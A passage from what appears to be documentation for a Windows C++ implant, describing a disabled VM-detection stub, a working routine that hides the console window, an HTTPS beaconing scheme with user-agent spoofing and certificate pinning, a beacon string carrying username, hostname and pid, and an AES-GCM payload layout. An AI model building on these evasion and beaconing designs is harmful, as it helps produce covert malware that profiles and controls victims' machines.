 **Configurable Detection:**
```cpp
bool is_vm() {
    // CPUID hypervisor bit check
    // Process enumeration for VM tools
    // Registry checks for virtualization artifacts
    return false; // Disabled for testing
}
```

### Process Hiding

**Stealth Techniques:**
```cpp
void stealth() {
    HWND h = FindWindowA(OBF("ConsoleWindowClass"), nullptr);
    if (h) ShowWindow(h, SW_HIDE);
    if (GetConsoleWindow()) FreeConsole();
    DisableThreadLibraryCalls(GetModuleHandle(nullptr));
}
```

## 📡 Communication Protocol

### HTTPS Communication

**WinHTTP Implementation:**
```cpp
std::string https_post(const std::string& host, const std::string& path, 
                      const std::vector<uint8_t>& data) {
    // Uses WinHTTP with TLS 1.2/1.3
    // Certificate pinning and validation
    // Proper user-agent spoofing
}
```

### Certificate Pinning

**Security Features:**
- Hardcoded server public key
- Certificate validation
- TLS protocol enforcement
- Hostname verification

### Beacon Format

**Beacon Data Structure:**
```
BEACON|username|hostname|pid|additional_data
```

**Encrypted Payload Format:**
```
[12-byte IV][16-byte TAG][N-byte AES-GCM ciphertext]
```
